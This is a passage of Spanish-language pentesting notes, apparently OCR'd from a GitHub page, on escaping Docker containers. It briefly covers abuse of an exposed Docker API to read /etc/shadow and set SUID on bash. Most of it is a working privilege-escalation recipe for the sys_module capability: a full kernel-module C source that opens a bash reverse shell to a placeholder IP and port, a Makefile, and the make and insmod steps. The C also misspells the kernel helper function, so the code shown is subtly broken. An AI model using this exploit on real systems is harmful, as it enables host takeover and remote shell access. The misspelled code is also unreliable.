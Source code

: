 ### De esta manera, si vemos que la API de docker esta activa en la máquina host, podríamos crear un contenedor como lo haríamos normalmente desde consola y manipular el contenido de la máquina host, pudiendo leer el etc/shadow, agregando el permiso SUID a la bash, etc. 

------
# Cap sys_module 

### En caso de ejecutar un **linpeas.sh**, o listar de manera manual las capabilities con `capsh --print` y localizar que el contenedor contiene la capabilitie **sys_module**, como resultado el contenedor puede insertar y/o remover modules del kerner en la máquina host del contenedor. 

### Una vez con la IP de la máquina host, haríamos uso del siguiente script en **c**.

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/{ip}/{port} 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL};
static int __init reverse_shell_init(void) {
return call_usermodelhelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

### Ahora habría que crear un archivotarget **makefile**:

```Makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

### Ejecutamos el comando `make`, luego podríamos proceder a ponernos en escucha por el puerto aclarado en la máquina host (O donde querramos envíar la reverse shell).

### Ejecutamos el comando `insmod reverse-shell.ko`, y al hacerlo se ejecutaría el comando ingresado, en este caso en las primeras líneas del archivo **c** se indicio `/bin/bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'





